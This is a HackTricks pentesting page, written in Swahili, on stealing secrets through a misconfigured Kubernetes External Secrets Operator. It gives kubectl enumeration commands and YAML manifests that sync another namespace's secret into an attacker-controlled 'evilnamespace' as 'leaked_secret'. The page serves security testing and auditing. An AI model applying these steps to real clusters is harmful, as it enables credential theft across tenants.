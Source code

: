 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**Mwandishi wa awali wa ukurasa huu ni** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ukurasa huu unatoa vidokezo juu ya jinsi unavyoweza kufanikisha kuiba siri kutoka kwa ESO isiyo na usanidi mzuri au programu inayotumia ESO kusawazisha siri zake.

## Disclaimer

Mbinu iliyoonyeshwa hapa chini inaweza kufanya kazi tu wakati hali fulani zinatimizwa. Kwa mfano, inategemea mahitaji yanayohitajika kuruhusu siri kusawazishwa kwenye namespace ambayo unamiliki / umevamia. Unahitaji kujitafutia mwenyewe.

## Prerequisites

1. Kuwepo katika klasta ya kubernetes / openshift yenye haki za admin kwenye namespace
2. Ufikiaji wa kusoma angalau ExternalSecret katika ngazi ya klasta
3. Jua kama kuna lebo / maelezo au uanachama wa kundi wowote unaohitajika ambao unaruhusu ESO kusawazisha siri yako. Ikiwa una bahati, unaweza kuiba siri yoyote iliyofafanuliwa kwa urahisi.

### Gathering information about existing ClusterSecretStore

Kukisia kwamba una watumiaji ambao wana haki za kutosha kusoma rasilimali hii; anza kwa kwanza kuorodhesha _**ClusterSecretStores**_ zilizopo.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Tuchukulie kuwa umepata ClusterSecretStore inayoitwa _**mystore**_. Endelea kwa kuorodhesha externalsecret zake zinazohusiana.
```sh
kubectl get externalsecret -A | grep mystore
```
_Rasilimali hii ina upeo wa namespace hivyo isipokuwa unajua tayari ni namespace ipi ya kutafuta, ongeza chaguo -A kutafuta katika namespaces zote._

Unapaswa kupata orodha ya externalsecret zilizofafanuliwa. Tuone umepata kitu cha externalsecret kinachoitwa _**mysecret**_ kilichofafanuliwa na kutumiwa na namespace _**mynamespace**_. Kusanya taarifa zaidi kuhusu ni aina gani ya siri inayoishikilia.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Kuunganisha vipande

Kutoka hapa unaweza kupata jina la siri moja au nyingi (kama ilivyoainishwa katika rasilimali ya Siri). Utapata matokeo yanayofanana na:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Hadi sasa tumepata:

- Jina la ClusterSecretStore
- Jina la ExternalSecret
- Jina la siri

Sasa kwamba tuna kila kitu tunachohitaji, unaweza kuunda ExternalSecret (na hatimaye kuboresha/kuunda Namespace mpya ili kuzingatia mahitaji yanayohitajika ili kupata siri yako mpya iunganishwe):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Baada ya dakika chache, ikiwa masharti ya usawazishaji yalitimia, unapaswa kuwa na uwezo wa kuona siri iliyovuja ndani ya nafasi yako.
```sh
kubectl get secret leaked_secret -o yaml
```
## Marejeleo

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
